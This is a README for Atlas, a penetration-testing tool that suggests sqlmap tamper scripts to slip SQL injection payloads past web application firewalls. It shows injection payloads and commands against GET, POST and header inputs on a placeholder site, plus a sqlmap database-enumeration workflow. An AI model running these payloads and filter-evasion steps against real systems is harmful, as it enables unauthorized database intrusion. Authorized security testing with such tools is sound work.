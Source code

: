 Atlas - Quick SQLMap Tamper Suggester (beta v.)
---

__Atlas__ is an open source tool that can suggest sqlmap tampers to bypass WAF/IDS/IPS, the tool is based on returned status code.

![atlas_main](https://i.imgur.com/G2bXF3A.png)


Screen
---
![atlas_run](https://i.imgur.com/I6cXSKd.png)

Installation
---
```
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py # python3+
```

Usage
---
```
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

injection point (with `%%inject%%`):

get:
```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

post:
```
$ python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

headers:
```
$ python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```


tampers concatenation:

```
$ python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

get tampers list:

```
$ python atlas.py -g
```


Example 
---
1. Run SQLMap:
```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```
![sqlmap](https://i.imgur.com/XP39Rqz.png)

```Price_ASC') AND 8716=4837 AND ('yajr'='yajr``` is blocked by WAF/IDS/IPS, now trying with Atlas:
```
$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```
![atlas_succ](https://i.imgur.com/U6qEnXp.png)

At this point:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```
